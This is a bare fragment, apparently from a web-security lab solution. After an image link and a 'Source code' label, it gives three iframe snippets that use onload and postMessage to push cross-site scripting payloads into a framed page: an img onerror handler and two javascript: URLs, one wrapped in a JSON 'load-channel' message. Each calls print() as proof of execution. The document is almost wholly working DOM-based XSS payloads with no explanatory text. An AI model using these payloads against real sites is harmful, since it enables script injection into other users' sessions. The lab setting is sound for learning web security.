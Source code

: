 <iframe src="bla bla" onload="this.contentWindow.postmessage('<img src=# onerror=print()>','*')">
<iframe src="bla bla" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
<iframe src="bla bla" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

